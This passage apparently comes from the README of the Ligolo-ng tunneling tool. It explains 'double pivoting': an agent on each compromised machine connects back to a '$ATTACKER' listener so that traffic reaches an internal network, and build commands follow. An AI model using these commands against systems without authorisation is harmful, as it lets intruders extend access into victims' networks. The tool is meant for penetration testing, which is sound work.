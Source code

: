     ./agent -connect https://$ATTACKER:443 -proxy http://$proxyAddr:$proxyPort [-ignore-cert]

## Double Pivoting

This case is useful when you compromised a first target that can contact your server, and you have also compromised a second machine that is able to contact your first target, and another network, which is the final goal. And this second machine is not able to contact your server.

### 1) On the attacker machine, start the listener

##### Automatically request LetsEncrypt certificates or use self-signed certificates

    ./proxy [-autocert | -selfcert] -laddr 0.0.0.0:443

### 2) On the first pivot machine, start the agent

    ./agent -connect $ATTACKER:443 [-ignore-cert]

### 3) Then, on the server select the opened session and start a new listener

    ligolo-ng » session
    [Agent : $SESSION] » listener_add --addr 0.0.0.0:1080 --to 127.0.0.1:11601

The first agent will listen on 0.0.0.0:1080
Any connections on this ip:port will be relayed to the 11601 TCP local port of the Ligolo-ng daemon.

### 4) Then, on the second pivot machine, run the agent and connect it to the first agent

    ./agent -connect $firstPivot:1080 [-ignore-cert]

A second session will appear on the server. Select it, and run the autoroute command. You can now access the final network.

# Build

- go build -o agent cmd/agent/main.go

- go build -o proxy cmd/proxy/main.go

- Build for Windows

- GOOS=windows go build -o agent.exe cmd/agent/main.go

- GOOS=windows go build -o proxy.exe cmd/proxy/main.go

# Setup

### Linux
